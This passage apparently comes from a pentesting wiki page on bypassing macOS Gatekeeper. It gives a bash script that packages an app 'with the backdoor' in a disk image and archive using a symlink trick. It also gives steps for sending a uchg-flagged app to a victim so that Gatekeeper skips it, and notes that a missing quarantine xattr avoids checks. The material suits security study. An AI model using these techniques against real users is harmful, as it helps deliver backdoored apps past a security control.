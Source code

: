 ```bash
# Create an app bundle with the backdoor an call it app.app

echo "[+] creating disk image with app"
hdiutil create -srcfolder app.app app.dmg

echo "[+] creating directory and files"
mkdir 
mkdir -p s/app
cp app.dmg s/app/._app.dmg
ln -s ._app.dmg s/app/app.dmg

echo "[+] compressing files"
aa archive -d s/ -o app.aar
```

### uchg (from this [talk](https://codeblue.jp/2023/result/pdf/cb23-bypassing-macos-security-and-privacy-mechanisms-from-gatekeeper-to-system-integrity-protection-by-koh-nakagawa.pdf))

* Create a directory containing an app.
* Add uchg to the app.
* Compress the app to a tar.gz file.
* Send the tar.gz file to a victim.
* The victim opens the tar.gz file and runs the app.
* Gatekeeper does not check the app.

### Prevent Quarantine xattr

In an ".app" bundle if the quarantine xattr is not added to it, when executing it **Gatekeeper won't be triggered**.

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}